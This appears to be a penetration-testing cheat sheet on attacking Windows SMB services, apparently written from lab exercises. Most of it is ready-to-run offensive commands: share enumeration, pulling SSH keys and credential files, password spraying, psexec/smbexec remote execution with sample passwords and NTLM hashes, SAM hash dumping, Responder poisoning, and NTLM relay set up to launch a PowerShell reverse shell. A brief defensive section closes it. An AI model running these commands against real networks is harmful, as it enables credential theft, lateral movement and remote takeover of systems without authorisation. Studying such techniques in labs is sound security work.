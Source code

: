 ```yaml
---
title: "Attacking Common Services — SMB"
tags: [attacking-common-services, smb, lateral-movement, forced-auth, relay]
tools: [nmap, smbclient, smbmap, crackmapexec, rpcclient, enum4linux, responder, impacket, bloodhound, hashcat]
---
```


# SMB

## Summary
SMB is a primary lateral-movement and credential-harvesting vector on Windows networks. Exposed shares often contain plaintext secrets, SSH keys, backups, or configuration files. SMB supports many offensive techniques: share enumeration, credential reuse, remote command execution (psexec/smbexec), NetNTLM capture (forced auth), NTLM relay, and exploitation of protocol vulnerabilities (e.g., SMBGhost). Prioritize read-only shares first — they’re low risk and high reward.

---

## Discovery & Enumeration
- Scan hosts for SMB (445/tcp) and NetBIOS (137/138/139):
```bash
nmap -p445,139,137 --script smb-enum-shares,smb-os-discovery <target>
```
- Quick share listing with `smbclient`:
```bash
smbclient -N -L //<target>
```
- Authenticated enumeration with `smbmap` to check permissions and quickly pull files:
```bash
smbmap -H <target>
smbmap -u simon -p liverpool -H <target> -r Home --no-banner

# rpcclient
rpcclient -U'%' 10.129.203.6
rpcclient $> enumdomusers
user:[jason] rid:[0x3e8]
user:[robin] rid:[0x3e9]

# enum4linux
./enum4linux-ng.py 10.10.11.45 -A -C
```
- `enum4linux` / `enum4linux-ng` for a broad set of SMB/NetBIOS checks.

---

## File Operations
- Download files for local analysis:
```bash
smbmap -H <target> --download "Share\path\file"
# or
smbclient \\\\target\\Share -U user%pass -c 'lcd /tmp; get file'

# Download | upload a file
smbmap -H $htb --download "GGJ\id_rsa"
smbmap -u jason -p '34c8zuNBo91!@28Bszh' -H 10.129.203.6 --download "GGJ\id_rsa"
smbmap -H $htb --upload test.txt "GGJ\test.txt"
```
- Look for filenames: `creds.txt`, `passwords.txt`, `id_rsa`, `backup*.zip`, `*.sql`, `*.mdb`, `*.pst`.

---

## Password Attacks & Spraying
- Password spraying with CrackMapExec avoids immediate lockouts:
```bash
crackmapexec smb <target> -u users.txt -p 'Summer2024!' --local-auth
```
- Brute forcing (use sparingly and slowly): Hydra / Medusa can target SMB (or netbios auth surface).

---

## Remote Code Exec / Lateral Tools
- Impacket `psexec.py` / `smbexec.py` / `atexec.py` for command execution if valid creds exist:
```bash
# psexec
python3 /usr/share/impacket/examples/psexec.py DOMAIN/Administrator@<target> -hashes :NTLM_HASH

# smbexec
crackmapexec smb <target> -u Admin -p 'Passw0rd' --exec-method smbexec -x 'whoami'

# Impacket - smbexec or atexec
impacket-psexec administrator:'liverpool'@10.129.203.6

# Crackmap
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Enumerate users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

# Extract hashes & PtH
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
- `wmiexec.py` and `smbexec.py` are useful alternatives when SMB exec methods fail.

---

## Forced Authentication (NetNTLM Capture)
- Use `Responder` to capture NetNTLM v1/v2 hashes in LLMNR/NBNS/MDNS/SMB name resolution poisoning scenarios:
```bash
sudo responder -I eth0
# logs saved to /usr/share/responder/logs/
```
- Use `ntlmrelayx.py` (Impacket) to relay captured NetNTLM auth to target services (SMB, HTTP, LDAP) or to spawn a shell:
```bash
impacket-ntlmrelayx -t smb://<target> --no-daemon
```
- Crack captured hashes with `hashcat` (mode 5600 for NTLMv2):
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## NTLM Relay & RCE
- Relay captured NTLM auth to a target that accepts NTLM (often SMB, but also HTTP/LDAP) to escalate access.
- Example: disable SMB signing (if allowed) to improve relay success; check for SMB signing requirement via `smbclient` or `nmap` scripts.
- `impacket-ntlmrelayx` supports running a command or dropping a payload via SMB after successful relay.

PowerShell reverse shell using https://www.revshells.com/, Powershell #3 (Base64).

```bash
# Turn off smb in responder
cat /etc/responder/Responder.conf | grep 'SMB ='
SMB = Off

# Execute reverse shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e'
```

---

## Detection & Defensive Notes (for reporting)

- Enforce SMB signing and SMBv3 where possible to mitigate relay and downgrade attacks.
- Restrict SMB to internal networks and jump hosts; don't expose SMB to the Internet.
- Monitor for unusual file downloads from shares and for suspicious SMB authentication failures.
- Log creation/modification times and alert on new scheduled tasks / services created after SMB auth escalations.

---

## Known Vulnerabilities
- CVE-2020-0796 — SMBGhost (SMBv3 compression vulnerability) — wormable RCE on certain unpatched Windows versions.
- Keep Windows patched; legacy SMBv1 should be disabled.

---

## Quick Cheatsheet
```bash
# Scan and enumerate
nmap -p445 --script smb-enum-shares,smb-enum-users <target>

# List shares
smbclient -L //<target> -N

# Authenticated enum and download
smbmap -u simon -p liverpool -H <target> --download "Home\\IT\\creds.txt"

# Spray
crackmapexec smb <target> -u users.txt -p 'Password123!' --local-auth

# Start responder
sudo responder -I eth0

# Relay example
impacket-ntlmrelayx -t smb://<target> -smb2support --no-http
```
